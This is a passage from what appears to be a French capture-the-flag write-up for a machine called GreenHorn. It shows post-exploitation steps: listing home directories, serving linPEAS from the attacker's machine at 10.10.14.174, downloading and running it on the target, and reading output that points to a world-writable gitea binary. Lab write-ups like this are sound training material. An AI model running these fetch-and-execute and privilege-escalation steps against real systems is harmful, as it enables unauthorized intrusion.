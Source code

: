 Dans `/home` on trouve le répertoire `junior` qui contient un fichier `user.txt` (probablement le flag user):

```bash
www-data@greenhorn:/$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Jun 20 06:36 .
drwxr-xr-x 20 root   root   4096 Jun 20 07:06 ..
drwxr-x---  2 git    git    4096 Jun 20 06:36 git
drwxr-xr-x  3 junior junior 4096 Jun 20 06:36 junior
www-data@greenhorn:/$ ls -la /home/junior
ls -la /home/junior
total 76
drwxr-xr-x 3 junior junior  4096 Jun 20 06:36 .
drwxr-xr-x 4 root   root    4096 Jun 20 06:36 ..
lrwxrwxrwx 1 junior junior     9 Jun 11 14:38 .bash_history -> /dev/null
drwx------ 2 junior junior  4096 Jun 20 06:36 .cache
-rw-r----- 1 root   junior 61367 Jun 11 14:39 Using OpenVAS.pdf
-rw-r----- 1 root   junior    33 Jul 25 02:48 user.txt
```

Il faudrait donc réussir à se connecter avec l'utilisateur `junior` pour voir le flag.

On va utiliser [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) pour trouver des vulnérabilités pour l'escalation de privilège.
Pour le transférer sur la machine, on va télécharger le script sur notre machine et le servir:

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 80
```

Par la suite, depuis le serveur, on va télécharger `linPEAS.sh`:

```bash
cd /tmp
wget 10.10.14.174/linpeas.sh
chmod +x linpeas.sh
```

Puis, on va l'exécuter:

```bash
./linpeas.sh
....
╔══════════╣ Analyzing .service files
/etc/systemd/system/gitea.service is calling this writable executable: /usr/local/bin/gitea
/etc/systemd/system/multi-user.target.wants/gitea.service is calling this writable executable: /usr/local/bin/gitea

╔══════════╣ Binary processes permissions (non 'root root' and not belonging to current user)
132M -rwxrwxrwx 1 junior junior 132M Apr 16 03:44 /usr/local/bin/gitea

╔══════════╣ Cleaned processes
git         1090  0.1  4.2 2063276 168748 ?      Ssl  05:43   0:01 /usr/local/bin/gitea web --config /etc/gitea/app.ini
```
